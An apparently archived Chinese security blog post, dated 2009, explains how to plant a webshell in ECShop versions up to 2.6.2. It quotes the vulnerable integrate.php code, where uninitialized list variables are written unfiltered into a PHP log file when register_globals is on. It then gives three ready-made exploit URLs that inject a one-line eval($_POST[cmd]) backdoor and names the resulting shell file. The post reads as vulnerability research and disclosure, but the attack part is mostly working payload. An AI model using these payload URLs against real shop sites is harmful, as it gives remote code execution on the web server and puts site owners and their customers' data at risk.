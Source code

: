 ```yaml
---
title: ECShop网店系统< =V2.6.2 后台拿webshell
description: ECShop是一款开源免费的网上商店系统。由专业的开发团队升级维护，为您提供及时高效的技术支持，您还可以根据自己的商务特征对ECSHOP进行定制，增加自己商城的特色功能。（官方介绍）ECSHOP前段时间出了个注射漏洞：http://bbs.wolvez.org/topic/67/，拿后台权限应该没有问题，但文章没有提及如何ECShop网店系统<=V2.6.2后台拿webshell。昨天可乐在t00ls.Net上发帖问如何拿shell，无聊中我baidu、google了下，网上貌似没有拿shell的办法。好久没读代码了，无聊中下了ECSHOP最新版（V2.6.2）的源码过来读，很庆幸，给我找到一个可以直接写shell的文件。与注射一样，同样是个变化未初始化导致的问题，于是，同样只能用在register_globals为on的环境下。
date: 2009-04-28 10:11:01
category: 漏洞信息
tags: ['ECShop', 'webshell', '漏洞信息']
post_id: 846
alias: ECShop-V2.6.2-webshell
ViewNums: 3149
---
```


[ECShop](/tags/ECShop)是一款开源免费的网上商店系统。由专业的开发团队升级维护，为您提供及时高效的技术支持，您还可以根据自己的商务特征对ECSHOP进行定制，增加自己商城的特色功能。（官方介绍）

ECSHOP前段时间出了个注射漏洞：<http://bbs.wolvez.org/topic/67/>，拿后台权限应该没有问题，但文章没有提及如何[ECShop网店系统< =V2.6.2 后台拿webshell](/blog/ecshop-v262-webshell)。昨天可乐在t00ls.Net上发帖问如何拿shell，无聊中我baidu、 google了下，网上貌似没有拿shell的办法。好久没读代码了，无聊中下了ECSHOP最新版（V2.6.2）的源码过来读，很庆幸，给我找到一个可以直接写shell的文件。与注射一样，同样是个变化未初始化导致的问题，于是，同样只能用在register_globals为on的环境下。

integrate.php第740行起：
```php
if ($_REQUEST['act'] == 'sync')
{
$size = 100;

......

$tasks = array();
if ($task_del > 0)
{
$tasks[] = array('task_name'=>sprintf($_LANG['task_del'], $task_del),'task_status'=>'<span id="task_del">' . $_LANG['task_uncomplete'] . '<span>');
$sql = "SELECT user_name FROM " . $ecs->table('users') . " WHERE flag = 2";
$del_list = $db->getCol($sql);//$del_list未初始化
}

if ($task_rename > 0)
{
$tasks[] = array('task_name'=>sprintf($_LANG['task_rename'], $task_rename),'task_status'=>'<span id="task_rename">' . $_LANG['task_uncomplete'] . '</span>');
$sql = "SELECT user_name, alias FROM " . $ecs->table('users') . " WHERE flag = 3";
$rename_list = $db->getAll($sql);//$rename_list未初始化
}

if ($task_ignore >0)
{
$sql = "SELECT user_name FROM " . $ecs->table('users') . " WHERE flag = 4";
$ignore_list = $db->getCol($sql);//$ignore_list未初始化
}

......

/* 保存修改日志 */
$fp = @fopen(ROOT_PATH . DATA_DIR . '/integrate_' . $_SESSION['code'] . '_log.php', 'wb');
$log = '';
if (isset($del_list))
{
$log .= '$del_list=' . var_export($del_list,true) . ';';
}
if (isset($rename_list))
{
$log .= '$rename_list=' . var_export($rename_list, true) . ';';
}
if (isset($ignore_list))
{
$log .= '$ignore_list=' . var_export($ignore_list, true) . ';';
}
//未做过滤，直接写log
fwrite($fp, $log);
fclose($fp);

$smarty->assign('tasks', $tasks);
$smarty->assign('ur_here',$_LANG['user_sync']);
$smarty->assign('size', $size);
$smarty->display('integrates_sync.htm');
}
```
$del_list、$rename_list、$ignore_list均没有初始化，于是，均可以直接写shell。

利用方法：
```
http://www.oldjun.com/admin/integrate.php?act=sync&del_list=<?php%20eval($_POST[cmd])?>
http://www.oldjun.com/admin/integrate.php?act=sync&rename_list=<?php%20eval($_POST[cmd])?>
http://www.oldjun.com/admin/integrate.php?act=sync&ignore_list=<?php%20eval($_POST[cmd])?>三个链接，随便输入一个就可以了，生成http://www.oldjun.com/data/integrate__log.php，就是一句话小马了~
```
From:[www.oldjun.com](http://www.oldjun.com/)

